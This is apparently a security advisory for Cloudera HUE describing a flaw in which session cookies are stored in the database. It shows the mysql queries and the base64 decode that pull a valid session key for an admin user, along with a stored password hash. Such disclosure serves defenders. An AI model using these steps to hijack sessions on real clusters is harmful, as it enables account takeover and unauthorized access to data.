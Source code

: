 Session cookies stored in the database
======================================

Description
-----------
**User session cookies are stored** in the database. Combined with the vulnerability related to [configuration file which is world readable](../Configuration file world readable/), it is possible to **spoof a user across the entire cluster launching jobs and browsing the datalake**, without having to crack password hashes.

Cookies are stored in the `django_session` table: `session_key` is the **cookie** and `session_data` holds the **user id with some other information encoded in base64.**
The following example shows how to **find a valid session cookie for a specific user (id=1).**
```
mysql> select * from django_session limit 1 \G ;
*************************** 1. row ***************************
 session_key: m67424cld61xe8960moyjj1esjqfiyvj
session_data: NGY2MzJhYjkxM2M5ZTU4ZDk0YjNjNjc4ODI1NmVkMzExMTI3YTc5NDp7Il9hdXRoX3VzZXJfYmFja2VuZCI6ImRlc2t0b3AuYXV0aC5iYWNrZW5kLkFsbG93Rmlyc3RVc2VyRGphbmdvQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOjF9
 expire_date: 2017-01-03 07:00:07
```
```
$ echo NGY2MzJhYjkxM2M5ZTU4ZDk0YjNjNjc4ODI1NmVkMzExMTI3YTc5NDp7Il9hdXRoX3VzZXJfYmFja2VuZCI6ImRlc2t0b3AuYXV0aC5iYWNrZW5kLkFsbG93Rmlyc3RVc2VyRGphbmdvQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOjF9 | base64 -d
4f632ab913c9e58d94b3c6788256ed311127a794:{"_auth_user_backend":"desktop.auth.backend.AllowFirstUserDjangoBackend","_auth_user_id":1}
```
```
mysql> select * from auth_user where id = 1 \G ;
*************************** 1. row ***************************
          id: 1
    password: pbkdf2_sha256$12000$dtbAVcdT4Ph9$4QMdEvX5Z0b5NFcPb69L50/cRo2ARFg/WCtk3/dcPw0=
  last_login: 2016-12-20 07:00:07
is_superuser: 1
    username: cloudera
  first_name: 
   last_name: 
       email: noreply@cloudera.com
    is_staff: 1
   is_active: 1
 date_joined: 2015-11-18 13:08:31
```
  
  
References
----------
  * [Issue on the HUE repository](https://github.com/cloudera/hue/issues/465)
